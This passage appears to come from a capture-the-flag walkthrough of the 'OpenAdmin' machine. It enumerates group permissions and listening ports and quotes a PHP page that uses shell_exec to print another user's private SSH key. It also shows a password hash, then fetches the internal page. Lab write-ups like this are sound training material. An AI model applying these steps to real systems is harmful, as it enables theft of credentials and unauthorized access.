 ```console
Sorry, user jimmy may not run sudo on openadmin.
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

```console
jimmy@openadmin:~$ grep 'internal' /etc/group
internal:x:1002:jimmy,joanna
```

```console
jimmy@openadmin:~$ find / -group internal 2> /dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
```
- index.php
```
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
```
- main.php
```console
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
the interesting part is
```php
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
```
so it will cat the content of `joanna/.ssh/id_rsa` what we need to do is visit main.php. my guess is the web is runing on localhost. let list the open ports
```
jimmy@openadmin:/var/www/internal$ netstat -tulpn | grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```
so 3306 is mysql, 53 is dns. The interesting port is `52846`
```console
$ wget http://localhost:52846/
$ cat index.html
```